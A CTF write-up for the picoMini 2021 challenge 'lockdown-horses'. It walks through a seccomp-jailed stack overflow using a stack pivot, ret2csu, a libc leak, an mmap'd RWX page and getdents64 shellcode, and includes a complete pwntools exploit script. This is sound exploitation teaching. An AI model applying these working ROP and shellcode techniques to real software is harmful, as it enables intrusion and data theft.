

<h1 align="center">🐴 lockdown-horses</h1>
<p align="center">
  <b>picoMini by redpwn (2021) Binary Exploitation Write-Up</b>
</p>
<p align="center">
  
  
  
  
</p>
<p align="center">
  A 96-Byte Overflow, a Stack Pivot, ret2csu, a libc Leak, and an mmap'd Shellcode Stage
</p>

---

# 📋 Environment

| Item       | Value                                                              |
| ---------- | ----------------------------------------------------------------- |
| Event      | picoMini by redpwn 2021 (run on CyLab Security Academy)            |
| Category   | Binary Exploitation                                               |
| Difficulty | Hard                                                             |
| Author     | kfb                                                               |
| Handout    | `horse` (64-bit ELF, No PIE), `Dockerfile`                        |
| Task       | Pop the jail and read a randomly-named flag file                 |
| Tools Used | `pwntools`, `ROPgadget`, `readelf`, `seccomp-tools`               |

---

# 🗺️ Overview

> `horse` is a cowsay-style toy that prints whatever you send inside a horse speech bubble. `main` reads `0x80` bytes into a `0x20` stack buffer, so there is a clean overflow, but only about 96 usable bytes of ROP and a `seccomp` filter that allows just `open`, `read` (stdin only), `write` (stdout only), `mmap`, `getdents64`, `exit`, and `exit_group`. No `execve`, and `read` is pinned to fd 0, so the flag file cannot be read the normal way; it has to be `mmap`'d. The binary is No PIE with a writable page fixed at `0x602000`, which turns the tiny overflow into unlimited ROP: read a longer chain into that page and pivot onto it. From there we `ret2csu` to leak libc via `write(1, write@got, 8)`, pull in more libc gadgets, `mmap` an RWX page, drop shellcode into it, and let the shellcode discover the randomized `flag-<uuid>.txt` with `getdents64` before `mmap`-ing and printing it.

Steps:
* Read `horse` and the seccomp filter; note No PIE and the fixed writable page
* Overflow `main`, read a full ROP chain into `0x602000`, and stack-pivot onto it
* `ret2csu` to `write(1, write@got, 8)` and recover the libc base
* Use libc gadgets to `mmap` an RWX page and `read` shellcode into it
* Shellcode: `getdents64` the directory, find the flag by name, `mmap` it, print it

---

# 📑 Table of Contents

1. [The Binary and the Jail](#the-binary-and-the-jail)
2. [The Overflow and the Space Problem](#the-overflow-and-the-space-problem)
3. [ret2csu and the Stack Pivot](#ret2csu-and-the-stack-pivot)
4. [Leaking libc](#leaking-libc)
5. [mmap an RWX Page](#mmap-an-rwx-page)
6. [Shellcode: Finding the Flag by Name](#shellcode-finding-the-flag-by-name)
7. [The Exploit](#the-exploit)
8. [Flag](#-flag)
9. [Solution Summary](#solution-summary)
10. [Lessons and Takeaways](#lessons-and-takeaways)

---

# The Binary and the Jail

`checksec` shows the shape of the problem: No PIE (fixed addresses), NX (no executable stack), Full RELRO, and no stack canary.

```text
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

`main` is tiny and holds the bug:

```c
int main(void) {
  char buf[32];
  setup();
  read(0, buf, 0x80);      // 0x80 bytes into a 0x20 buffer -> overflow
  horse(buf);
  return 0;
}
```

`setup()` installs a `seccomp` filter. Dumped to a readable form, the allow-list is:

```text
open            (unconditional)
read            (only if fd == 0, i.e. stdin)
write           (only if fd == 1, i.e. stdout)
mmap            (unconditional)
getdents64      (unconditional)
exit / exit_group
everything else -> KILL
```

Two consequences fall straight out of this. There is no `execve`, so no shell. And because `read` is restricted to stdin, we cannot `open` the flag and `read` it out; the only way to get file contents into memory is `mmap`. The presence of `getdents64` is the hint for the other half of the problem, explained by the Dockerfile:

```dockerfile
COPY bin/flag.txt /srv/app/flag.txt
RUN mv /srv/app/flag.txt /srv/app/flag-`cat /proc/sys/kernel/random/uuid`.txt
```

The flag is renamed to `flag-<random-uuid>.txt`, so the filename is unknown at exploit time and must be recovered at runtime with `getdents64`.

> **In plain terms:** we can overflow the stack, but the jail takes away the usual wins. No shell, and we cannot even read the flag file directly. The escape route is to map the flag into memory with `mmap`, and first we have to learn its random name by listing the directory.

---

# The Overflow and the Space Problem

`read(0, buf, 0x80)` into `buf[0x20]` leaves `0x80 - 0x20 - 0x08 = 0x58` bytes past the saved return address, which is only about eleven 8-byte slots of ROP. That is not enough to leak libc, map memory, and stage shellcode in one shot.

No PIE saves us. The writable data page is always mapped at a fixed `0x602000`, so the plan is to read a much larger ROP chain into that page and pivot the stack onto it. The binary gives three clean gadgets for the pivot and argument control:

```text
0x400c03 : pop rdi ; ret
0x400c01 : pop rsi ; pop r15 ; ret
0x400bfd : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret      (stack pivot)
```

> **In plain terms:** the overflow is too small to do everything at once, so we use it only to copy a big chain into a memory region whose address we already know, then point the stack pointer at that region and keep going from there.

---

# ret2csu and the Stack Pivot

To call `read` (and later `write`) we need to control `rdi`, `rsi`, and `rdx`. The `__libc_csu_init` function compiled into the binary provides the classic universal gadgets:

```asm
; CSU_POP @ 0x400bfa
pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret

; CSU_CALL @ 0x400be0
mov rdx, r15 ; mov rsi, r14 ; mov edi, r13d ; call [r12 + rbx*8]
```

Setting `rbx = 0` and `rbp = 1` makes the loop run exactly once and return cleanly, while `r12` points at a GOT slot so `call [r12]` invokes that libc function with `edi = r13`, `rsi = r14`, `rdx = r15`:

```python
def ret2csu(call_ptr, edi, rsi, rdx):
    return flat(
        CSU_POP, 0, 1, call_ptr, edi, rsi, rdx,
        CSU_CALL,
        0, 0, 0, 0, 0, 0, 0,     # add rsp,8 pad + six pops at the CSU tail
    )
```

Stage 1 overflows `main`, calls `read` to pull stage 2 into the fixed page at `0x602020`, and pivots onto it. The pivot target is `DATA - 0x18` because `pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret` consumes three slots before it returns into the chain:

```python
s1  = b'\x00'*0x20 + b'b'*8
s1 += flat(POP_RDI, 0, POP_RSI_R15, DATA1, 0, READ_PLT, PIVOT, DATA1 - 0x18)
s1  = s1.ljust(0x80, b'A')     # exactly the 0x80 main reads
```

> **In plain terms:** the binary's own startup code doubles as a gadget that loads three argument registers and calls a function of our choosing. We use it to call `read`, land a bigger chain in the known-address page, and move the stack there so the chain has room to breathe.

---

# Leaking libc

The binary has no `syscall` instruction and not enough gadgets to set up `mmap` on its own, so we need libc. Stage 2 (now executing from the pivoted stack) leaks a libc pointer by writing the resolved address of `read` out of the GOT, then reads stage 3 and pivots again:

```python
s2  = ret2csu(WRITE_GOT, 1, WRITE_GOT, 8)    # write(1, write@got, 8)
s2 += ret2csu(READ_GOT,  0, DATA2, S3_LEN)   # read(0, DATA2, len(stage3))
s2 += flat(PIVOT, DATA2 - 0x18)
```

The eight leaked bytes are the live address of `write`; subtracting its offset in the matching libc gives the base:

```python
leak = u64(io.recv(8))
libc.address = leak - libc.sym['write']
```

The one input the leak depends on is the exact libc. The Dockerfile pins the Ubuntu userland by digest, so we pull that image and take the real `libc.so.6` straight out of it, which makes every offset below exact:

```sh
IMG=ubuntu@sha256:703218c0465075f4425e58fac086e09e1de5c340b12976ab9eb8ad26615c3715
docker run --rm --entrypoint cat $IMG /lib/x86_64-linux-gnu/libc.so.6 > libc.so.6
```

Every libc gadget is then resolved from that file at runtime rather than hardcoded, so the chain is correct for the precise build the server runs:

```python
POP_RAX     = g('pop rax ; ret')
POP_RDX_R12 = g('pop rdx ; pop r12 ; ret')
MOV_R10_RDX = g('mov r10, rdx ; jmp rax')
SET_R8      = g('mov r8d, 0xffffffff ; mov eax, r8d ; ret')
SET_R9      = g('xor r9d, r9d ; mov eax, r9d ; ret')
SYSCALL_RET = g('syscall ; ret')
```

> **In plain terms:** we print one known libc pointer to work out where libc sits this run, pulling the exact library out of the pinned Docker image so the math and every gadget address line up perfectly.

---

# mmap an RWX Page

With libc gadgets in hand, stage 3 maps a fixed read/write/execute page at `0x604000`, then reuses the binary's `read@plt` to pour shellcode into it and returns there:

```text
mmap(0x604000, 0x1000, PROT_RWX=7, MAP_PRIVATE|ANON|FIXED=0x32, -1, 0)   ; rax = 9
read(0, 0x604000, 0x1000)
ret -> 0x604000
```

The six-argument `mmap` syscall needs `r10`, `r8`, and `r9`, which the binary alone cannot set, so the libc gadgets do it: `xor r9d` zeroes the offset, the `mov r8d, 0xffffffff` gadget sets `fd = -1`, and a `mov r10, rdx ; jmp rax` trick moves the flags into `r10` while a double `pop rax` lands `9` in `rax` for the syscall number.

> **In plain terms:** we carve out a page we are allowed to both write and execute, copy raw machine code into it, and jump in. Once we are running our own instructions, the awkward part is over.

---

# Shellcode: Finding the Flag by Name

Now free of ROP constraints, the shellcode does the whole file read itself. It opens the current directory, lists it with `getdents64`, walks the `linux_dirent64` records looking for the entry whose name begins with `flag`, opens that file, `mmap`s it (since `read` on a non-stdin fd is forbidden), and writes the contents to stdout. Because the name is found at runtime, the random UUID never has to be known in advance:

```asm
    lea  rdi, [rip + dot]        ; "."
    xor  esi, esi                ; O_RDONLY
    mov  eax, 2
    syscall                      ; fd = open(".")
    mov  rdi, rax
    lea  rsi, [rip + buf]
    mov  edx, 0x1000
    mov  eax, 217
    syscall                      ; getdents64(fd, buf, 0x1000)
    lea  r11, [rip + buf]
    lea  r12, [r11 + rax]        ; end of dirent buffer
scan:
    cmp  r11, r12
    jae  done
    lea  r13, [r11 + 19]         ; d_name
    mov  eax, dword ptr [r13]
    cmp  eax, 0x67616c66         ; "flag"
    je   found
    movzx eax, word ptr [r11 + 16]  ; d_reclen
    add  r11, rax
    jmp  scan
found:
    mov  rdi, r13
    xor  esi, esi
    mov  eax, 2
    syscall                      ; fd2 = open("flag-....txt")
    mov  r8, rax
    xor  edi, edi
    mov  esi, 0x1000
    mov  edx, 1                  ; PROT_READ
    mov  r10d, 2                 ; MAP_PRIVATE
    xor  r9d, r9d
    mov  eax, 9
    syscall                      ; map = mmap(0, 0x1000, 1, 2, fd2, 0)
    mov  rsi, rax
    mov  edi, 1
    mov  edx, 0x200
    mov  eax, 1
    syscall                      ; write(1, map, 0x200)
done:
    mov  eax, 60
    xor  edi, edi
    syscall
dot:
    .asciz "."
buf:
```

> **In plain terms:** once our own code is running we simply ask the directory for its file list, pick the one that starts with "flag", map that file into memory, and print it. No hardcoded filename, so it works on every fresh deployment.

---

# The Exploit

```python
#!/usr/bin/env python3
import sys, re
from pwn import *

context.arch = 'amd64'
context.log_level = 'info'

elf  = ELF('./horse', checksec=False)
libc = ELF(sys.argv[3] if len(sys.argv) >= 4 else './libc.so.6', checksec=False)

POP_RDI=0x400c03; POP_RSI_R15=0x400c01; PIVOT=0x400bfd
CSU_POP=0x400bfa; CSU_CALL=0x400be0
READ_PLT=elf.plt['read']; WRITE_GOT=elf.got['write']; READ_GOT=elf.got['read']
DATA1=0x602020; DATA2=0x602500; RWX=0x604000; S3_LEN=0xe0

def ret2csu(c, a, b, d):
    return flat(CSU_POP, 0, 1, c, a, b, d, CSU_CALL, 0, 0,0,0,0,0,0)
def g(s):
    return next(libc.search(asm(s)))

io = remote(sys.argv[1], int(sys.argv[2])) if len(sys.argv) >= 3 else process('./horse')

# stage 1: overflow -> read stage2 into the fixed page, pivot
s1 = (b'\x00'*0x20 + b'b'*8 +
      flat(POP_RDI, 0, POP_RSI_R15, DATA1, 0, READ_PLT, PIVOT, DATA1-0x18)).ljust(0x80, b'A')
io.send(s1)

# stage 2: leak libc, read stage3, pivot
io.send(ret2csu(WRITE_GOT, 1, WRITE_GOT, 8) +
        ret2csu(READ_GOT, 0, DATA2, S3_LEN) +
        flat(PIVOT, DATA2-0x18))

horse_ptr = u64(elf.read(elf.sym['HORSE'], 8))
horse_art = elf.read(horse_ptr, 200).split(b'\x00')[0]
io.recvuntil(horse_art[-16:])
libc.address = u64(io.recv(8)) - libc.sym['write']
log.success('libc base: %#x' % libc.address)

# stage 3: mmap RWX, read shellcode, jump
POP_RAX=g('pop rax ; ret'); POP_RDX_R12=g('pop rdx ; pop r12 ; ret')
MOV_R10_RDX=g('mov r10, rdx ; jmp rax'); SET_R8=g('mov r8d, 0xffffffff ; mov eax, r8d ; ret')
SET_R9=g('xor r9d, r9d ; mov eax, r9d ; ret'); SYSCALL_RET=g('syscall ; ret')

s3  = flat(SET_R9, SET_R8, POP_RAX, POP_RAX, POP_RDX_R12, 0x32, 0, MOV_R10_RDX, 9,
           POP_RDI, RWX, POP_RSI_R15, 0x1000, 0, POP_RDX_R12, 7, 0, SYSCALL_RET)
s3 += flat(POP_RDI, 0, POP_RSI_R15, RWX, 0, POP_RDX_R12, 0x1000, 0, READ_PLT, RWX)
assert len(s3) == S3_LEN
io.send(s3)

io.send(asm('''
    lea rdi,[rip+dot]; xor esi,esi; mov eax,2; syscall
    mov rdi,rax; lea rsi,[rip+buf]; mov edx,0x1000; mov eax,217; syscall
    lea r11,[rip+buf]; lea r12,[r11+rax]
scan:
    cmp r11,r12; jae done
    lea r13,[r11+19]; mov eax,dword ptr [r13]; cmp eax,0x67616c66; je found
    movzx eax,word ptr [r11+16]; add r11,rax; jmp scan
found:
    mov rdi,r13; xor esi,esi; mov eax,2; syscall
    mov r8,rax; xor edi,edi; mov esi,0x1000; mov edx,1; mov r10d,2; xor r9d,r9d; mov eax,9; syscall
    mov rsi,rax; mov edi,1; mov edx,0x200; mov eax,1; syscall
done:
    mov eax,60; xor edi,edi; syscall
dot: .asciz "."
buf:
'''))

print(re.search(rb'picoCTF\{[^}]*\}', io.recvall(timeout=5)).group().decode())
```

Run it against the server (with the extracted libc beside it):

```text
$ python3 solve.py mars.cylabacademy.net 31809
[+] libc base: 0x70215a872000
[+] FLAG: picoCTF{n0_sh3ll_v3ry_flag_xdd}
```

One practical detail that matters over a live socket: the stages must not bleed into one another. `main` always reads exactly `0x80` bytes, so stage 1 is padded to exactly `0x80`, and stage 2's read is sized to the exact length of stage 3, so no `read` can swallow bytes meant for the next stage.

---

# 🚩 Flag

```text
picoCTF{n0_sh3ll_v3ry_flag_xdd}
```

---

# Solution Summary



---

# Lessons and Takeaways

* **A fixed writable page beats a tiny overflow.** With No PIE, `0x602000` is always mapped and writable, so an 11-slot overflow becomes unlimited ROP: read a long chain into that page and pivot the stack onto it.
* **ret2csu is the argument primitive.** The `__libc_csu_init` gadgets load `rdi`, `rsi`, and `rdx` and call any GOT function, which is enough to call `read` and `write` repeatedly across stages and to leak libc.
* **seccomp shapes the whole solve.** No `execve` means shellcode, not a shell; `read` locked to stdin means the flag must be `mmap`'d rather than read; and `getdents64` being allowed is the tell that the filename has to be discovered at runtime.
* **Discover the filename, do not hardcode it.** The flag is `flag-<uuid>.txt` and the UUID changes per deployment, so the shellcode walks the `getdents64` records for the `flag` prefix and opens whatever it finds, which makes the exploit deployment-independent.
* **Resolve libc from the pinned image.** Pulling the exact `libc.so.6` out of the digest-pinned Docker image and resolving every gadget from it at runtime keeps the leak math and gadget addresses exact for the build the server actually runs.
* **Mind the socket boundaries.** Multi-stage ROP breaks subtly if one `read` eats the next stage, so stage 1 is padded to the exact `0x80` that `main` consumes and stage 2's read is sized to stage 3 precisely.

---

Written by **TheDingo8MyBaby**
picoMini by redpwn 2021 • lockdown-horses • flag: picoCTF{n0_sh3ll_v3ry_flag_xdd}
